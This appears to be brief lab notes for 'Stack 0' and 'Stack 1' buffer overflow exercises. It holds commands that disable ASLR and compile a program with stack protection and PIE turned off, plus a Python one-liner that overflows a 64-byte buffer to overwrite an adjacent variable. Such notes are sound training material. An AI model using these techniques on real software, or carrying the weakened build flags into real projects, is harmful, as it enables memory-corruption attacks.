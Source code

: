 ```
sudo bash -c 'echo 0 > /proc/sys/kernel/randomize_va_space'
gcc overflow.c -o overflow -fno-stack-protector -z execstack -no-pie

```

# STACK 0

* All we need to do is overwrite the buffer variable into the modified variable


# STACK 1

* We need to overflow the buffer and then overwrite the variable

```
python -c 'print "A"*64 + "\x64\x63\x62\x61" '
```